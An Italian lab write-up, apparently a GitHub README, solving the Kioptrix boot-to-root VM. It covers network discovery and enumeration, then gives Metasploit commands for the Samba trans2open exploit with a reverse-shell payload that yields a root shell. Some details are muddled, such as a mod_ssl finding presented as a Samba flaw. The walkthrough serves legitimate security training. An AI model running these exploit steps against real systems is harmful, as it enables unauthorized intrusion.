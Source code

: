 Kioptrix è una challenge boot to root, l'obiettivo è ottenere l'accesso root tamite tools e tecniche di valutazione delle vulnerabilità e di exploitation.

![Kioptrix1](https://user-images.githubusercontent.com/104534892/236891421-44073633-88ad-4558-89e5-fdcae109936a.png)

Approccio:
1. Network discovery 
2. Enumerazione 
3. Exploitation 
4. Ricerca flag

# 1. Network Discovery

Per prima cosa è necessario ottenere l'indirizzo IP della vittima, quindi eseguiamo una scansione tramite netdiscover:

>Cos'è netdiscover? è uno strumento di ricognizione per reti wireless utilizzato per rilevare passivamente host o cercarli attivamente mediante richieste ARP (Address Resolution Protocol).

Il comando per eseguire la scansione è: `sudo netdiscover`

![Kioptrix4](https://user-images.githubusercontent.com/104534892/236891485-df50e551-af9d-4d3c-bfaf-a2cf2bea4115.png)

Netdiscover ci restituisce il nome dell'host vittima "PCS Sysemtechnik" , il suo indirizzo IP (in questo caso 10.0.2.4) e l'indirizzo MAC.

# 2. Enumerazione

Ottenuto l'indirizzo IP possiamo utilizzare Nmap per verificare servizi, protocolli e porte aperte dell'host.

>Cos'è Nmap? Acronimo di Network Mapper è un tool open source per il rilevamento ed il controllo della sicurezza di rete, utilizza pacchetti IP raw per determinare quali host sono disponibili sulla rete, quali servizi (nome e versione), quali sistemi operativi (e la versione) e che tipo di firewall sono in uso e molto altro.

Eseguiamo una scansione tramite il comando: `sudo nmap 10.0.2.4 -sV -p- -T4 -O`
- -sV per identificare i servizi in esecuzione e la rispettiva versione
- -p- esegue una scansione di tutte le porte
- -T4 è per una scansione più aggressiva e rapida
- -0 per identificare il sistema operativo

![Kioptrix5](https://user-images.githubusercontent.com/104534892/236891538-36720eab-9ea2-4828-9585-8b350f5c0cbe.png)

Dalla scansione risulta aperta la porta 80/tcp che esegue Apache: controllando il sito web per verificare la presenza di eventuali web app di terze parti exploitabili questo ci riconduce soltanto ad una pagina di test che non ci fornisce alcuna informazione aggiuntiva, nemmeno il codice sorgente risulta essere utile.

![Kioptrix6](https://user-images.githubusercontent.com/104534892/236891571-a4e8d6df-fbfe-46c7-813f-7ff3c528572d.png)

Dalla precedente scansione effettuata con nmap si può notare che la porta 139/tcp esegue un netBIOS Samba smbd, ovvero un protocollo client-server per l'accesso a file e directories; Cerchiamo eventuali vulnerabilità nella versione in uso tramite Nikto:
`nikto -h http://10.0.2.4`

![Kioptrix7](https://user-images.githubusercontent.com/104534892/236891608-df43baa8-b967-41b1-b765-1cd21f94c167.png)

Dal risultato della scansione possiamo notare che la versione in utilizzo di Samba (2.2.1a) è vulnerabile ad un remote buffer overflow che ci permette di accedere alla shell da remoto e compromettere la VM vittima:
`mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082), OSVDB-756.`
trovata la vulnerabilità è necessario cercare un exploit, dopo alcune ricerche ho scoperto che il modulo di Metasploit da caricare è /exploit/linux/samba/trans2open (source: https://www.exploit-db.com/exploits/16861).

# 3. Exploitation

Per cercare l'exploit ed ottenere l'accesso utilizziamo Metasploit

>Cos'è Metasploit? è un framework open source per lo sviluppo, il testing e l'esecuzione codici exploit 
	
![Kioptrix8](https://user-images.githubusercontent.com/104534892/236891639-369449f1-af7b-4b35-a700-6ffe187bbcf7.png)
- `sudo msfdb init`
- `msfconsole`
avviamo il database come user "msf" e la console, in seguito cerchiamo la vulnerabilità ovvero trans2open: `search trans2open`

![Kioptrix9](https://user-images.githubusercontent.com/104534892/236891707-887aae6f-a647-42f0-807d-cb177a23749d.png)

selezioniamo il modulo dell'exploit trovato in precedenza `use exploit/linux/samba/tran2open` e visualizziamo i dettagli del payload da settare tramite `options`:

![Kioptrix10](https://user-images.githubusercontent.com/104534892/236891738-acc3c456-eecd-42db-afa3-588eecbbe61a.png)

In seguito impostiamo:
- il remote host (RHOST) `set RHOST10.0.2.4`
- il payload `set payload linux/x86/shell_reverse_tcp`
e lanciamo l'exploit `exploit` e generiamo la shell:

![Kioptrix12](https://user-images.githubusercontent.com/104534892/236891766-de3d8c41-ff09-4cb3-b77a-65624ea127a6.png)

Ottenuto l'accesso alla VM vittima verifichiamo i privilegi:

![Kioptrix13](https://user-images.githubusercontent.com/104534892/236891783-208d9439-2dc3-4b16-a1a7-b0a3bc944d0a.png)

Abbiamo ottenuto l'accesso root alla macchina, adesso basta generare una shell TTY tramite `/bin/bash -i` per utilizzare la shell bash.

# 4. Ricerca Flag

Prima di cercare la flag diamo un'occhiata all'history dei comandi utilizzati nella shell tramite `history`:

![Kioptrix14](https://user-images.githubusercontent.com/104534892/236891812-5a528c9b-87df-452c-83a2-5cf906aff2d9.png)

notiamo che è stato utilizzato il comando mail, quindi accediamo alla directory come utente root per leggerle le mail salvate:

![Kioptrix15](https://user-images.githubusercontent.com/104534892/236891829-19387e6f-80b0-4ac9-9a32-8854a67c53c0.png)

VM completata, abbiamo ottenuto la flag!
